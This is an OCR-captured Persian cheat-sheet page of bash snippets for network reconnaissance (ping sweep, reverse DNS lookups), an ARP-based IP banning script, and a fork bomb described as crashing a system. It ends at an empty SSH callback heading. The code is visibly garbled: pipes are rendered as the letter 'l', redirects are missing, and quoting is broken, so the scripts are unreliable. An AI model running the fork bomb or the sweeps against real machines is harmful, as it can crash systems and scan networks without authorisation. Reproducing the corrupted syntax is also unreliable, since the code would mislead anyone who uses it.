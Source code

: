 
## اسکریپت نویسی

### ایجاد Ping sweep

```text
for x in {1 .. 254 .. l};do ping -c 1 1.1.1.$x lgrep "64 b" lcut -d" "-f4 ips.txt; done
```

### خودکار سازی فرآیند domain name resolve در اسکریپت bash 

```text
#!/bin/bash
echo "Enter Class C Range: i.e. 192.168.3"
read range
for ip in {1 .. 254 .. l};do
host $range.$ip lgrep " name pointer " lcut -d"
done
```

### ایجاد Fork bomb \(ایجاد فرآیند برای crash شدن سیستم\)

```text
: (){:|: & };:
```

### فرآیند dns reverse lookup

```text
for ip in {1 .. 254 .. 1}; do dig -x 1.1.1.$ip | grep $ip
dns.txt; done;
```

### اسکریپت مسدود نمدن Ip 

```text
#!/bin/sh
# This script bans any IP in the /24 subnet for 192.168.1.0 starting at 2
# It assumes 1 is the router and does not ban IPs .20, .21, .22
i=2
while
$i -le 253 l
do
if [ $i -ne 20 -a $i -ne 21 -a $i -ne 22 ]; then
echo "BANNED: arp -s 192.168.1.$i"
arp -s 192.168.1.$i OO:OO:OO:OO:OO:Oa
else
echo "IP NOT BANNED: 192.168.1.$i"
fi
i='expr $i +1`
done
```

### ایجاد SSH Callback
